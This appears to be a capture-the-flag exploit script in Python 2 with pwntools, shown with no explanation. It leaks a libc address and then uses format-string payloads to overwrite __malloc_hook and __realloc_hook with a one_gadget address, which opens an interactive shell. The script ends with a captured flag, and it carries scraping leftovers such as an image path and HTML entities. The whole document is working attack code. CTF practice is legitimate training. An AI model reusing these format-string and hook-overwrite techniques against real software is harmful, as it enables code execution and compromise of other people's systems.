 ```

fake_size = 0x00
fmt = fmtstr_payload(6,`{`addr + 74: fake_size`}`,write_size='short')
print "fmtstr_payload ==&gt; ",fmt
say(fmt)

add(0x100, 'aaa')

r.sendlineafter('choice: ', str(1))
r.sendlineafter('size: ', str(0x10))
r.sendafter('content: ', '\x78')

show()
r.recvuntil('content:')
libc.address = u64(r.recv(6).ljust(8, '\x00'))-344-0x10-libc.symbols['__malloc_hook']
print hex(libc.address)
sys_addr = libc.symbols['system']
malloc_hook = libc.symbols['__malloc_hook']
realloc_hook = libc.symbols['__realloc_hook']
realloc = libc.symbols['realloc']
rr = malloc_hook-0x8
one = 0x4527a
ogg = libc.address+one
tar = realloc_hook+2

tar = ogg
for i in range(6):
    off = tar&amp;0xff
    fmt = fmtstr_payload(6,`{`rr+i: off`}`,write_size='byte')
    say(fmt)
    r.sendlineafter('?', '3'*(off-1))
    tar = tar&gt;&gt;8

tar = realloc+12
for i in range(6):
    off = tar&amp;0xff
    fmt = fmtstr_payload(6,`{`malloc_hook+i: off`}`,write_size='byte')
    say(fmt)
    r.sendlineafter('?', '3'*(off-1))
    tar = tar&gt;&gt;8

sleep(0.2)
r.sendline('1')
sleep(0.2)
r.sendline('10')


r.interactive()

#flag`{`006c45fa-81d5-45eb-8f8c-eb6833daadf5`}`
```
